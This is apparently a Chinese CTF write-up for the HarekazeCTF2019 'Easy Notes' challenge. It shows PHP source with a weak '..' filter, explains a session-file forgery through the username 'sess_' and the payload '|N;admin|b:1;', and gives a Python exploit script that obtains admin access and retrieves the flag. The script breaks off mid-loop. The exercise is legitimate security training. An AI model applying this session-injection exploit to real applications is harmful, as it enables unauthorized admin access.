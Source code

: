 

```php
# init.php
require_once('config.php');
require_once('lib.php');

session_save_path(TEMP_DIR);
session_start();

# config.php
define('TEMP_DIR', '/var/www/tmp');
```

```php
# export.php

$filename = get_user() . '-' . bin2hex(random_bytes(8)) . '.' . $type;
$filename = str_replace('..', '', $filename); // avoid path traversal
$path = TEMP_DIR . '/' . $filename;

```



> [HarekazeCTF2019 Easy Notes_末初 · mochu7](https://blog.csdn.net/mochu7777777/article/details/107568406)
>
> 那么只需要创建一个用户名为： sess_
> PHP中默认`session.serialize_handler`默认设置为`php`，而这种引擎特点是即可使用`|`作为键值隔离符。利用`|`即可将序列化字符串拼接
> 然后Add note提交title为：`|N;admin|b:1;`，这样反序列化结果即可为：`admin==bool(true)`
> 最后`export.php?type=.`即可使得这个`.`与前面的`.`拼接成`..`被替换为空，$filename也就成为了session文件名了



网上的一次性脚本

```python
import re
import requests
URL = 'http://9a4a58cb-3fbf-4664-8b92-af85f695a519.challenge.ctf.show/'

while True:
    # login as sess_
    sess = requests.Session()
    sess.post(URL + 'login.php', data={
        'user': 'sess_'
    })

    # make a crafted note
    sess.post(URL + 'add.php', data={
        'title': '|N;admin|b:1;',
        'body': 'hello'
    })

    # make a fake session
    r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
    print(r)
    
    sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
    print(sessid)
    
    # get the flag
    r = requests.get(URL + '?page=flag', cookies={
        'PHPSESSID': sessid
    }).content.decode('utf-8')
    flag = re.findall(r'ctfshow\{.+\}', r)

    if len(flag) > 0:
```